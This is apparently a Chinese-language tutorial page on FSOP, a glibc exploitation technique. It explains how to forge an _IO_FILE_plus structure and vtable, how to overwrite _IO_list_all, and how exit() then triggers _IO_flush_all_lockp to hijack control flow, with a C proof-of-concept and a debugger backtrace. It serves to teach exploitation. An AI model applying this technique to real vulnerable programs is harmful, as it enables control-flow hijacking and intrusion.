 [EN](./fsop.md) | [ZH](./fsop-zh.md)
# FSOP

## 介绍
FSOP是File Stream Oriented Programming的缩写，根据前面对FILE的介绍得知进程内所有的_IO_FILE结构会使用_chain域相互连接形成一个链表，这个链表的头部由_IO_list_all维护。

FSOP的核心思想就是劫持_IO_list_all的值来伪造链表和其中的_IO_FILE项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP选择的触发方法是调用_IO_flush_all_lockp，这个函数会刷新_IO_list_all链表中所有项的文件流，相当于对每个FILE调用fflush，也对应着会调用_IO_FILE_plus.vtable中的_IO_overflow。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
        ...
  }
}
```

![](./figure/abort_routine.001.jpeg)

而_IO_flush_all_lockp不需要攻击者手动调用，在一些情况下这个函数会被系统调用：

1.当libc执行abort流程时

2.当执行exit函数时

3.当执行流从main函数返回时


## 示例

梳理一下FSOP利用的条件，首先需要攻击者获知libc.so基址，因为_IO_list_all是作为全局变量储存在libc.so中的，不泄漏libc基址就不能改写_IO_list_all。

之后需要用任意地址写把_IO_list_all的内容改为指向我们可控内存的指针，

之后的问题是在可控内存中布置什么数据，毫无疑问的是需要布置一个我们理想函数的vtable指针。但是为了能够让我们构造的fake_FILE能够正常工作，还需要布置一些其他数据。
这里的依据是我们前面给出的

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
```

也就是

* fp->_mode <= 0
* fp->_IO_write_ptr > fp->_IO_write_base



在这里通过一个示例来验证这一点，首先我们分配一块内存用于存放伪造的vtable和_IO_FILE_plus。
为了绕过验证，我们提前获得了_IO_write_ptr、_IO_write_base、_mode等数据域的偏移，这样可以在伪造的vtable中构造相应的数据

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

我们使用分配内存的前0x100个字节作为_IO_FILE，后0x100个字节作为vtable，在vtable中使用0x41414141这个地址作为伪造的_IO_overflow指针。

之后，覆盖位于libc中的全局变量 _IO_list_all，把它指向我们伪造的_IO_FILE_plus。

通过调用exit函数，程序会执行 _IO_flush_all_lockp，经过fflush获取_IO_list_all的值并取出作为_IO_FILE_plus调用其中的_IO_overflow

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()

```
